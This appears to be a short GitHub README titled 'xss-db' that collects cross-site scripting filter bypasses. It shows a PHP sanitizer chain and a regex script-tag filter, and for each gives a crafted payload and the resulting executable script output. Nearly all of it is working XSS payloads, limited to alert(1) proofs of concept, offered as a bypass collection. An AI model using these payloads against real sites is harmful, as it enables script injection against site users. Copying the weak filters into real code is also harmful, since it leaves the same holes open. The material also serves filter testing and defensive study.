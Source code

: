 # xss-db

PHP


PHP sorce code:
```PHP
addslashes(strip_tags(html_entity_decode("input")))
```
bypass:
```html
'<p>&lt;script&gt;/*&lt;</p>*/alert(1);/*<p>&gt;*/&lt;/script&gt;</p>'
```
output:
```html
<script>/*<*/alert(1);/*>*/</script>
```
notes:
 - may need to be escaped before hand
 - may also beable to be minified

<hr>

regex code:
```
#<script(.*?)>(.*?)</script>#is
```
bypass:
```html
<script>alert(1)</script/>
```
output:
```html
<script>alert(1)</script>
```
 notes:
  - might not be needed to be put here but I did anyways.

 <hr>
